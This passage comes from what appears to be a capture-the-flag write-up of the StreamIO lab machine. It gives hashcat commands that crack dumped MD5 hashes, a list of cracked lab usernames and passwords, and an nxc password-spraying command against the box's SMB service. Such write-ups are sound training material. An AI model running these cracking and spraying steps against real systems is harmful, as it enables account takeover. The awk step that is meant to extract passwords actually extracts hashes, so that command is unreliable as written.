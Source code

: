 <figure><img src="../../.gitbook/assets/streamio_exfiltrate_data.png" alt=""><figcaption><p>Figure 19: Exfiltrating the <code>username</code> and <code>password</code> fields.</p></figcaption></figure>

### Brute-Forcing

When we copy and paste the data from Burp into a file, we will need to tidy them up in order to be in proper format (`user:hash`). Hashcat manages to crack 12 out of the total 25 hashes.&#x20;

```bash
# tidying up the data
cat db_users | tr '|' '\n' | tr -d ' ' > user_hashes
# cracking MD5 hashes
hashcat -m0 user_hashes /usr/share/wordlists/rockyou --username
<SNIP>
# listing the cracked hashes
hashcat -m0 user_hashes --username --show
Lauren:08344b85b329d7efd611b7a7743e8a09:##123a8j8w5123##
Sabrina:f87d3c0d6c8fd686aacc6627f1f493a5:!!sabrina$
Thane:3577c47eb1e12c8ba021611e1280753c:highschoolmusical
Barry:54c88b2dbd7b1a84012fabc1a4c73415:$hadoW
Michelle:b83439b16f844bd6ffe35c02fe21b3c0:!?Love?!123
Victoria:b22abb47a02b52d5dfa27fb0b534f693:!5psycho8!
Clara:ef8f3d30a856cf166fb8215aca93e9ff:%$clara
Lenord:ee0b8a0937abd60c2882eacb2f8dc49f:physics69i
Juliette:6dcd87740abb64edfa36d170f0d5450d:$3xybitch
Bruno:2a4e2cf22dd8fcb45adcb91be1e22ae8:$monique$1991$
yoshihide:b779ba15cedfd22a023c4d8bcf5f2332:66boysandgirls..
admin:665a50ac9eaa781e4f7f04199db97a11:paddpadd
```

Next, we can split the users and the passwords into 2 files and check if any of these is valid. Testing them against the SMB server, none of them work.

{% code overflow="wrap" %}
```bash
# writing the cracked hashes into a file
hashcat -m0 user_hashes --username --show > cracked_hashes
# splitting users and passwords
cat cracked_hashes | awk -F':' '{print $1}' > users
cat cracked_hashes | awk -F':' '{print $2}' > passwords
# password-spraying SMB
nxc smb 10.10.11.158 -u users -p passwords --continue-on-success
```
{% endcode %}
